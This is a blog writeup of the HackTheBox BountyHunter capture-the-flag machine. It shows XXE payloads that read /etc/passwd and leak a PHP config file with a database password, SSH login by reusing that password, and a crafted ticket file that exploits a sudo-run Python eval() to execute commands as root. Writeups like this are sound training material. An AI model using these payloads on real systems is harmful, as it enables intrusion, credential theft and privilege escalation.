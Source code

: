 ```yaml
---
layout: post
title:  "HackTheBox BountyHunter"
date:   2021-10-03
category: Writeup
image: assets/img/blog/BountyHunter.png
author: Lukas Marckmiller
tags: ctf
---
```


# HackTheBox BountyHunter Writeup!

Hi! Thanks for reading my Writeup for the HTB Machine *BountyHunter*


## User.txt

First, i started with running [autorecon](https://github.com/Tib3rius/AutoRecon) (`autorecon <ip>)`. Its a pretty nice tool for gathering information about open ports, services bound to ports and possible attack vectors.
Taking a look on the results of  [autorecon](https://github.com/Tib3rius/AutoRecon) it reveals two open ports, SSH (**22**) and HTTP (**80**).  
![nmap](/assets/img/blog/bhnmap.png)
I manually visited the website on port 80, found a php script and started running `gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://<ip> -x php`. It revealed following files and directories:

`/resources,/index.php,portal.php,/assets, /js, /css, db.php`

Next i manually checked the discovered directories and found a tasklist in `http://\<ip>/resources/README.txt` containing following text:

> Tasks:
> 
> [ ] Disable 'test' account on portal and switch to hashed password.
> Disable nopass. [X] Write tracker submit script [ ] Connect tracker
> submit script to the database [X] Fix developer group permissions

We should keep this information in mind. Also theres a file called `bountylog.js` containing JavaScript code. 

    function returnSecret(data) {
    	return Promise.resolve($.ajax({
                type: "POST",
                data: {"data":data},
                url: "tracker_diRbPr00f314.php"
                }));
    }
    
    async function bountySubmit() {
    	try {
    		var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
    		<bugreport>
    		<title>${$('#exploitTitle').val()}</title>
    		<cwe>${$('#cwe').val()}</cwe>
    		<cvss>${$('#cvss').val()}</cvss>
    		<reward>${$('#reward').val()}</reward>
    		</bugreport>`
    		let data = await returnSecret(btoa(xml));
      		$("#return").html(data)
    	}
    	catch(error) {
    		console.log('Error:', error);
    	}
    }

Analysing the code we can see that it sends a post request with an xml payload to `tracker_diRbPr00f314.php`. I thought about it for a second and got the idea: 
XML + Webrequest = [XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_%28XXE%29_Processing). So i started BurpSuite, moved to `http://<ip>/log_submit.php` and caught the post request to `http://<ip>/tracker_diRbPr00f314.php` which contained  a base64 encoded payload. A URL and base64 decoding later i got the raw request. 

    <?xml  version="1.0" encoding="ISO-8859-1"?>
    		<bugreport>
    		<title>1</title>
    		<cwe>2</cwe>
    		<cvss>3</cvss>
    		<reward>4</reward>
    		</bugreport>

In  Burp I moved to the Repeater and built my payload with the help of [this list](https://github.com/payloadbox/xxe-injection-payload-list).

    <?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
    		<bugreport>
    		<title>&ent;</title>
    		<cwe>2</cwe>
    		<cvss>3</cvss>
    		<reward>4</reward>
    		</bugreport>

Base64 and URL encoded i got the contents of the passwd file. 

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    ...
    development:x:1000:1000:Development:/home/development:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin

So my XXE attack was successful. Unfortunately i couldn't read any other found files like `db.php` or `portal.php` in my expected web root direcotory at `/var/www/html/`. So i was looking for a different payload to avoid absolute paths and found an alternative payload on [hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file).

    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/db.php"> ]>
    <data>&example;</data>

It revealed the contents of db.php.

    <?php
    // TODO -> Implement login system with the database.
    $dbserver = "localhost";
    $dbname = "bounty";
    $dbusername = "admin";
    $dbpassword = "m19RoAU0hP41A1sTsq6K";
    $testuser = "test";
    ?>

Nice! So we got a database user and a password. Unfortunately i couldn't find anything else interesting so i moved to the ssh port. Previously we found a user named `development`in `/etc/passwd`, if we try `ssh development@<ip>` we are prompted for a password. We haven't found any password for this user so i just tried the password from the `db.php` file and .... it worked! 

    development@bountyhunter:~$ id   
    uid=1000(development) gid=1000(development) groups=1000(development)
  So we can retrieve the first flag.

## Root.txt
I started to ennumerate the current directory and found a `contract.txt` 
![contract](/assets/img/blog/bhcontract.png)
It gives us a hint that on the system we can find an internal tool from *Skytrain Inc*, but we dont know where exactly. So i ran `find / -iname "*Skytrain*" 2>/dev/null`. 
![find](/assets/img/blog/bhfind.png)
The directory contains a python script `ticketValidator.py`with straightforward python code.

	#Skytrain Inc Ticket Validation System 0.1
	#Do not distribute this file.
	def load_file(loc):
	    if loc.endswith(".md"):
	        return open(loc, 'r')

	    else:
	        print("Wrong file type.")
	        exit()
	
	def evaluate(ticketFile):
	    #Evaluates a ticket to check for ireggularities.
	    code_line = None
	    for i,x in enumerate(ticketFile.readlines()):
	        if i == 0:
	            if not x.startswith("# Skytrain Inc"):
	                return False
	            continue
	        if i == 1:
	            if not x.startswith("## Ticket to "):
	                return False
	            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
	            continue

	        if x.startswith("__Ticket Code:__"):
	            code_line = i+1
	            continue

	        if code_line and i == code_line:
	            if not x.startswith("**"):
	                return False

	            ticketCode = x.replace("**", "").split("+")[0]

	            if int(ticketCode) % 7 == 4:
	                validationNumber = eval(x.replace("**", ""))
	                if validationNumber > 100:
	                    return True
	                else:
	                    return False
	    return False

	def main():
	    fileName = input("Please enter the path to the ticket file.\n")
	    ticket = load_file(fileName)
	    #DEBUG print(ticket)
	    result = evaluate(ticket)
	    if (result):
	        print("Valid ticket.")
	    else:
	        print("Invalid ticket.")
	    ticket.close

	main()

The most important line `validationNumber = eval(x.replace("**", ""))` contains a eval. If we could manipulate the contants of `x` we can execute arbitrary commands.  I we follow `x` backwards through the script we can observe that a file is read line by line and each line stored in the loop value `x`.  But in order to execute the contents of `x` we must satisfy all conditions:

 1. `if loc.endswith(".md")`. Our payload file must have the extension  .md
 2. `if int(ticketCode) % 7 == 4:` The first part of our payload must a number that devided by 7 is a multiple of it with the rest of 4. The easiest value is 4.
 3. Our payload must contain a `+` in the ticketcode line.

An example can be found in `/opt/skytrain_inc/invalid_tickets` e.g:

    # Skytrain Inc
    ## Ticket to New Haven
    __Ticket Code:__  **31+410+86**
    ##Issued: 2021/04/06
    #End Ticket  

But what do we actually achive with this? 
I ran [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) nad found out that the current user is able to execute the script above as the root user without using a password! So that means if we can execute arbitrary code it is executed as the root user. 
All put together i ended up with following payload:

    # Skytrain Inc  
    ## Ticket to New Haven  
    **4+ __import__('os').system('cat /root/root.txt > /tmp/root')**    
    ##Issued: 2021/04/06  
    #End Ticket 

 After that we can read the flag with `cat /tmp/root`

 



